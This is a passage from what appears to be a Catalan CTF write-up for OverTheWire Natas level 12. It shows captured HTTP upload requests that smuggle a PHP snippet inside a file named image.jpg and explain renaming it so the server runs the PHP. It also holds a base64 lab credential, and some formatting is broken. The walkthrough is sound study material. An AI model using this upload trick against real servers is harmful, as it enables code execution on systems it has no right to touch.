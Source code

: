 Authorization: Basic bmF0YXMxMjpZV3FvMHBqcGNYelNJbDVOTUFWeGcxMlF4ZUMxdzlRRw==

Upgrade-Insecure-Requests: 1

Origin: http://natas12.natas.labs.overthewire.org

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc03BpyGwO15ssBN

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://natas12.natas.labs.overthewire.org/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: _ga=GA1.1.627158546.1708100915; _ga_RD0K2239G0=GS1.1.1708100914.1.1.1708100926.0.0.0

Connection: close

------WebKitFormBoundaryc03BpyGwO15ssBNP

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000

------WebKitFormBoundaryc03BpyGwO15ssBNP

Content-Disposition: form-data; name="filename"
xq6qamzrfv.jpg

------WebKitFormBoundaryc03BpyGwO15ssBNP

Content-Disposition: form-data; name="uploadedfile"; filename="image.jpg"

Content-Type: image/jpeg
````



``<? echo ('hello world!') ?>``


``------WebKitFormBoundaryc03BpyGwO15ssBNP--``

  
Ens dona la URL, hi cliquem però seguim sense veure res:


![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/428b6754-6fb5-4576-bf25-df2ea6eeda8c)
 

Per tant al moment d’enviar la petició hem de canviar el format perquè ens interpreti le PHP:


```
`POST /index.php HTTP/1.1

Host: natas12.natas.labs.overthewire.org

Content-Length: 432

Cache-Control: max-age=0

Authorization: Basic bmF0YXMxMjpZV3FvMHBqcGNYelNJbDVOTUFWeGcxMlF4ZUMxdzlRRw==

Upgrade-Insecure-Requests: 1
````